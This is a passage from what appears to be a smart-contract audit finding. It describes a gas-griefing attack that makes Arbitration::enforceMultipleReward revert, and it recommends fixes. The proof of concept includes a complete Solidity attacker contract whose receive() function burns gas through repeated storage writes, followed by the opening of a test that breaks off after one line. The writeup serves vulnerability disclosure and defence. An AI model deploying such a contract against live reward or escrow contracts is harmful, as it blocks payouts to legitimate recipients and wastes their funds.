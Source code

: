 
## Recommendations
I would recommend not using ```Arbitration::enforceMultipleReward``` at all. Especially in a live mainnet environment, debugging which address is causing the revert can be hard. If multiple whitehats colluded to do this attack, it could take several failed calls of ```Arbitration::enforceMultipleReward``` before removing all malicious addresses in an array. Sending a single reward during the arbitration at a time still allows for a whitehat to make this attack, but the attack is way less effective because the function call does not have the potential of having a hefty gas fee associated, and the arbiter or vault can quickly identify the address causing the revert. 
If ```Arbitration::enforceMultipleReward``` is still a function necessary for arbitration, it might make sense to have checks on whitehat addresses to prevent them from being other smart contracts. This wouldn't allow any code execution to cause transactions to revert. 

## Proof of concept
### PoC
The following is a PoC of the attack described above. This test was based on ```testArbSendsMultipleRewardsAndCloses``` in ```Arbitration.t.sol``` with slight changes to execute the attack. The first code snippet is the contract of the malicious whitehat that has a ```receive``` function that gets called through the execution of ``` Arbitration::enforceMultipleRewards``` (more specifically ```VaultDelegate::sendReward``` within this ``` Arbitration::enforceMultipleRewards```). A malicious whitehat could supply the address of this smart contract when deployed to do this griefing attack. The second code snippet is the test function that demonstrates the attack. 

Attack Smart contract (Named ```Receiver.sol```): 
```solidity 

pragma solidity ^0.8.18;
import {console} from "../lib/forge-std/src/console.sol";

contract Receiver {
    event Received(address caller, uint amount, string message);
    event SenderAddress(address sender);

    mapping(uint => uint) public values;

    // Function that consumes a lot of gas by writing to storage many times
    function consumeALotOfGas(uint numberOfWrites) public {
        for (uint i = 0; i < numberOfWrites; i++) {
            // Writing to storage is costly in terms of gas
            values[i] = i;
        }
    }
    // The receive function is called when Ether is sent to the contract with no data
    receive() external payable {
        // slither-disable-next-line arbitrary-send-eth,low-level-calls
        this.consumeALotOfGas(1000);
    }

    function logSender() external {
        emit SenderAddress(msg.sender);
    }

    // Function to check the contract's balance
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
Test demonstrating the attack: 
```solidity
    function testArbSendsMultipleRewardsGriefing() public {
        uint96 referenced = 1;

```